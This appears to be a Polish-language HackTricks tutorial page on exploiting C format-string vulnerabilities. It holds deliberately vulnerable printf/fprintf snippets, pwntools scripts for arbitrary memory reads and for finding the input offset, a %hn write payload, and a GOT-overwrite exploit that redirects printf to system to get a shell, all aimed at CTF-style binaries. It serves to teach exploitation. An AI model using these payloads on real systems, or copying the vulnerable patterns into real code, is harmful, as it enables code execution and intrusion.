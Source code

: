 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

W C **`printf`** to funkcja, która może być używana do **drukowania** pewnego ciągu znaków. **Pierwszym parametrem**, którego oczekuje ta funkcja, jest **surowy tekst z formatami**. **Następne parametry** to **wartości**, które mają **zastąpić** **formaty** w surowym tekście.

Inne podatne funkcje to **`sprintf()`** i **`fprintf()`**.

Luka pojawia się, gdy **tekst atakującego jest używany jako pierwszy argument** tej funkcji. Atakujący będzie w stanie stworzyć **specjalne dane wejściowe, które wykorzystują** możliwości **formatu printf** do odczytu i **zapisu dowolnych danych w dowolnym adresie (czytliwym/zapisywalnym)**. Dzięki temu będzie mógł **wykonać dowolny kod**.

#### Formatery:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Przykłady:**

* Przykład z luką:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normalne użycie:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Z brakującymi argumentami:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf podatny:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Dostęp do wskaźników**

Format **`%<n>$x`**, gdzie `n` to liczba, pozwala wskazać printf, aby wybrał n parametr (ze stosu). Więc jeśli chcesz odczytać 4. parametr ze stosu używając printf, możesz to zrobić:
```c
printf("%x %x %x %x")
```
i możesz czytać od pierwszego do czwartego parametru.

Lub możesz zrobić:
```c
printf("%4$x")
```
i odczytać bezpośrednio czwarty.

Zauważ, że atakujący kontroluje parametr `pr`**`intf`**, co zasadniczo oznacza, że** jego dane wejściowe będą znajdować się na stosie, gdy `printf` zostanie wywołane, co oznacza, że mógłby zapisać konkretne adresy pamięci na stosie.

{% hint style="danger" %}
Atakujący kontrolujący te dane wejściowe będzie w stanie **dodać dowolny adres na stosie i sprawić, że `printf` uzyska do nich dostęp**. W następnej sekcji wyjaśniono, jak wykorzystać to zachowanie.
{% endhint %}

## **Arbitralne Odczyty**

Możliwe jest użycie formatera **`%n$s`**, aby sprawić, że **`printf`** uzyska **adres** znajdujący się na **n pozycji**, a następnie **wydrukuje go tak, jakby był ciągiem** (drukuj, aż znajdziesz 0x00). Więc jeśli adres bazowy binarnego pliku to **`0x8048000`**, a wiemy, że dane wejściowe użytkownika zaczynają się na 4. pozycji na stosie, możliwe jest wydrukowanie początku binarnego pliku za pomocą:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Zauważ, że nie możesz umieścić adresu 0x8048000 na początku wejścia, ponieważ ciąg zostanie obcięty na 0x00 na końcu tego adresu.
{% endhint %}

### Znajdź offset

Aby znaleźć offset do swojego wejścia, możesz wysłać 4 lub 8 bajtów (`0x41414141`) następnie **`%1$x`** i **zwiększać** wartość, aż uzyskasz `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Jak przydatne

Arbitralne odczyty mogą być przydatne do:

* **Zrzutu** **binarnego** z pamięci
* **Dostępu do konkretnych części pamięci, gdzie przechowywane są wrażliwe** **informacje** (jak kanarki, klucze szyfrowania lub niestandardowe hasła, jak w tym [**wyzwaniu CTF**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitralne Zapis**

Formatowanie **`$<num>%n`** **zapisuje** **liczbę zapisanych bajtów** w **wskazanym adresie** w parametrze \<num> na stosie. Jeśli atakujący może zapisać tyle znaków, ile chce za pomocą printf, będzie w stanie sprawić, że **`$<num>%n`** zapisze arbitralną liczbę w arbitralnym adresie.

Na szczęście, aby zapisać liczbę 9999, nie trzeba dodawać 9999 "A" do wejścia, aby to zrobić, można użyć formatowania **`%.<num-write>%<num>$n`** do zapisania liczby **`<num-write>`** w **adresie wskazywanym przez pozycję `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Jednakże, należy zauważyć, że zazwyczaj, aby zapisać adres taki jak `0x08049724` (co jest OGROMNYM numerem do zapisania na raz), **używa się `$hn`** zamiast `$n`. To pozwala na **zapisanie tylko 2 bajtów**. Dlatego ta operacja jest wykonywana dwa razy, raz dla najwyższych 2B adresu, a drugi raz dla najniższych.

Dlatego ta podatność pozwala na **zapisanie czegokolwiek w dowolnym adresie (arbitralny zapis).**

W tym przykładzie celem będzie **nadpisanie** **adresu** **funkcji** w tabeli **GOT**, która będzie wywoływana później. Chociaż można to wykorzystać w innych technikach arbitralnego zapisu do exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Zamierzamy **nadpisać** **funkcję**, która **otrzymuje** swoje **argumenty** od **użytkownika** i **wskazać** ją na **funkcję** **`system`**.\
Jak wspomniano, aby zapisać adres, zazwyczaj potrzebne są 2 kroki: **najpierw zapisujesz 2 bajty** adresu, a następnie kolejne 2. W tym celu używa się **`$hn`**.

* **HOB** jest wywoływane dla 2 wyższych bajtów adresu
* **LOB** jest wywoływane dla 2 niższych bajtów adresu

Następnie, z powodu działania formatu ciągu, musisz **najpierw zapisać najmniejszy** z \[HOB, LOB\], a potem drugi.

Jeśli HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Jeśli HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Szablon Pwntools

Możesz znaleźć **szablon** do przygotowania exploita dla tego rodzaju podatności w:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Lub ten podstawowy przykład z [**tutaj**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings do BOF

Możliwe jest nadużycie działań zapisu w podatności na format string, aby **zapisać w adresach stosu** i wykorzystać podatność typu **buffer overflow**.

## Inne przykłady i odniesienia

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bity, brak relro, brak canary, nx, brak pie, podstawowe użycie format strings do wycieku flagi ze stosu (nie ma potrzeby zmieniać przepływu wykonania)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bity, relro, brak canary, nx, brak pie, format string do nadpisania adresu `fflush` funkcją win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bity, relro, brak canary, nx, brak pie, format string do zapisania adresu wewnątrz main w `.fini_array` (aby przepływ wrócił jeszcze raz) i zapisania adresu do `system` w tabeli GOT wskazującego na `strlen`. Gdy przepływ wraca do main, `strlen` jest wykonywane z danymi wejściowymi użytkownika i wskazując na `system`, wykona przekazane polecenia.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
